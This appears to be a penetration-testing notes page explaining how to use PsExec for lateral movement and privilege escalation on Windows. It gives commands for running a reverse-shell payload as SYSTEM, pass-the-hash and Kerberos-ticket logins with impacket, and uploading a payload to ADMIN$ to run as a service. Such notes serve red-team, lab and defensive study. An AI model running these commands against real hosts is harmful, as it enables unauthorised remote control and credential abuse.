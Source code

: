 
This note falls under both [Privilege Escalation](../../04.%20Privilege%20Escalation/index.md) and [Lateral Movement](../index.md).
## Overview
---
**PsExec** allows you to execute processes on remote systems, providing a way to run commands or launch programs on another computer over a network.  PsExec allows a user to acquire a SYSTEM level shell via exploiting write privileges in the default `C$` or `ADMIN$` share.

This means that if you can access the `C$` or `ADMIN$` share on a system, you can elevated your privileges to **NT AUTHORITY/SYSTEM.**

## Usage
---

There are multiple different ways to utilize PsExec on a target.

#### Sysinternals Suite (`psexec.exe`)

- Link: https://learn.microsoft.com/en-us/sysinternals/
- Must be ran on a Windows host.

```powershell
# Accept EULA
.\psexec.exe -accepteula

# Execute a PowerShell reverse shell payload on a remote system as SYSTEM
.\psexec.exe \\<target_host> -u <admin_user> -p <admin_pass> -s -i powershell.exe -e <base64_payload>

# Copy a binary to a remote system and execute it as SYSTEM
.\psexec.exe \\<target_host> -u <admin_user> -p <admin_pass> -s -i -c <binary>.exe

# User to Run As                   : -u
# Password of Executing User       : -p
# Execute as NT AUTHORITY/SYSTEM   : -s
# Execute Interactively            : -i
# Copy Local Binary and Execute It : -c
```
#### impacket-psexec

- Link: https://github.com/fortra/impacket
- `impacket-psexec` is the Kali Linux alias for impacket's `psexec.py` script.

```shell
# Psexec via Password
impacket-psxec <domain>/<username>:'<password>'@<target>

# Psexec via Pass-the-Hash
impacket-psexec <domain>/<username>@<target> -hashes <ntlm>:<ntlm>

# Psexec via Kerberos Ticket
export KRB5CCNAME=/path/to/<krb5cc_ticket>
impacket-psexec <domain>/<username>@<target> -k -no-pass

# Optional: add a specific command to execute (default: cmd.exe)
impacket-psxec <domain>/<username>:'<password>'@<target> '<command_to_execute>'

# Return Help                    : help
# Execute Local Commands         : !<local_command>
# Upload Files to Temp Directory : lput <local_file> Temp
```

#### Manual Execution via SC

- This requires no credentials, but write privileges to the ADMIN$ / C$ share.

```cmd
# Copy binary to the ADMIN$ share of a host
copy payload.exe \\<target_host>\ADMIN$

# Create and start a service pointing to uploaded binary
sc \\<target_host> create servicename binPath= "C:\Windows\payload.exe"
sc \\<target_host> start servicename
```

*(Note: The space in `binPath= "C:\Windows\payload.exe"` is intended.)*